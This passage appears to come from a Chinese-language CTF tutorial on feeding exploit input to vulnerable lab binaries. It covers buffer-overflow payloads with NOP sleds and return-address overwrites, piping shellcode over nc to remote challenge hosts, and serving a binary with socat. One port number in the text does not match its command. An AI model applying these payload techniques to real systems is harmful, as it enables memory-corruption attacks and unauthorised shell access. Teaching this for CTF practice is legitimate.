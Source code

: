 

### 常见手工处理数据输入技巧

**命令行参数输入**

```
./level05 $(python –c ‘print “\x90”* 50 + “\x31….\x80”+”\x90”*n+”\xff\xff\xff\xbf”*m’)
```

**标准输入输出交互**

```
python -c "print 'A'*65" | ./stack0
python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
python -c "print 'A'*100+'B'*4" | /opt/protostar/bin/stack5
./level3 < payload.txt
(gdb) run < payload.txt
```

> 以上输入可以用于触发漏洞，但管道可能导致无法正确返回交互shell，所以还是建议使用pwntools来完成这些工作

**文件输入**

**网络输入**

```
python -c 'print ("1\n2\n" + "A" * 44 + "\x31\xc0\x50..(略)...\x0b\xcd\x80\n" + "d\n")' | nc -q -1 218.2.197.251 1234
cat shell2.bin | nc 218.2.197.249 1337
python exp.py | nc 218.2.197.249 1337
nc 218.2.197.249 1337 < data.txt
```

**绑定目标程序到端口**

标准输入输出型程序，可以通过socat或xinetd将其变成网络服务，然后只要远程连接就可与程序交互。socat命令如下：

```
$ socat TCP4-LISTEN:1337,reuseaddr,fork EXEC:./level1
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 1337来访问我们的目标程序服务了。

现在如果是使用pwntool或zio实现的exp的话，只要把`p = process('./level1')`换成`p = remote('127.0.0.1',1337)`即可。

要注意的是，把程序的io重定向到socket上的时候，有时候如果发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。
